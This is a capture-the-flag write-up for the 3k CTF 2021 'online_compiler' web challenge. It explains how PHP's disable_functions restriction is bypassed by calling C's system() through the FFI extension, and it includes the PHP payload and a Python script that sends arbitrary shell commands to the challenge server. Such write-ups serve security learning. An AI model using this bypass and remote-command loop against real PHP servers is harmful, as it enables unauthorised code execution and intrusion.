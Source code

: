 ```yaml
---
layout: post
title: "3k CTF 2021 online_compiler Write Up"
description: This article is about write-up for the 3k CTF 2021. there is only one web challenge, which contain RCE bug
date: 2021-05-17 23:29:53
imgurl: https://pbs.twimg.com/profile_images/1280083880884797441/13I3YmCK_400x400.png
excerpt: The online_compiler challenge is bypass the disable_functions and get the flag.
---
```

> The online_compiler challenge is bypass the disable_functions and get the flag.

First at challenge, Given the back-end code and php.ini file. When execute the php code at back-end you just need to checked the execute based on php.ini file. If u check the php.ini file, you will see many functions are disabled based on disable_functions. Deservedly, Was disabled function that shell command can be execute.

![](https://raw.githubusercontent.com/P0cas/image/main/3kctf%202021/1.png)
But, Because `phpinfo()` is not disabled, I can check the PHP Version as above and can know using the `7.4.X` version in server. So, I did a search for vulnerabilities that occur in that version.

![](https://raw.githubusercontent.com/P0cas/image/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-16%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%207.00.45.png)
![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.43.32.png?raw=true)
I found content as above while gooling. I did a gooling keyword is `php 7.4 disable_functions bypass`. As above content is one among several bypass list. So, I checked `FFI` in `phpinfo()` and it was enabled.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.31.49.png?raw=true)
I did say without thinking `"This seem the most possible"` to jingyu bro on may 7 pm 7 hour. Fucking, After that, I did googling for another 2 hour.

![](https://raw.githubusercontent.com/P0cas/image/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.30.48.png)
First, I first looked at FFI and it stands for Foreign function interface, which is an external function interface, but I didn’t know how to use it. Then I found a strange article, and I could see the cdef() method used in the FFI class. It can be seen that an object is created by inserting a C language function prototype as the argument value of cdef(), and an external function is executed by referring to the function prototype created from the object.

![](https://raw.githubusercontent.com/P0cas/image/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.39.19.png)
The prototype of the C Language system() function was as above. It seems like it was because I didn’t do it as a pointer variable when I just did `const char command’.

```php
<?php 
  $ffi=FFI::cdef("int system(const char *command);");
  $ffi->system('ls');
?>
```
So, as a result, the payload was written as above. At first, like the picture above, the library file was also passed as a parameter, but it didn’t work well when passed. Probably because there is no file in the same path, it seems like that, but even without it, there was no problem.

![](https://raw.githubusercontent.com/P0cas/image/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.50.22.png)
When I wrote the code in Python and checked it, the El_FlAAG___FilEE file existed in the upper directory. So when I read the file, a flag came out. In the end, it was correct that I did say to jingyu bro on 7 pm earlier. zz

```python
import requests
from pwn import *

url = 'http://onlinecompiler.2021.3k.ctf.to:5000/'
path = ['save', 'compile']

while(1):
    command = raw_input("pocas@py : ")
    c_type, code = 'php', '<?php $ffi=FFI::cdef("int system(const char *command);");$ffi->system(\'{}\');?>'.format(command)
    body1 = {'c_type':c_type, 'code':code}

    # save     filename = requests.post(url + path[0], data=body1).text
    log.info("Exploitation")
    log.info("filename : " + filename)

    # compile     body2 = {'c_type':c_type, 'filename':filename}
    result = requests.post(url + path[1], data=body2).text.replace('\n', ' ')
    log.info("result : " + result)
```
```plaintext
FLAG : 3k{JuSt_A_WaRmUp_O.o}
```
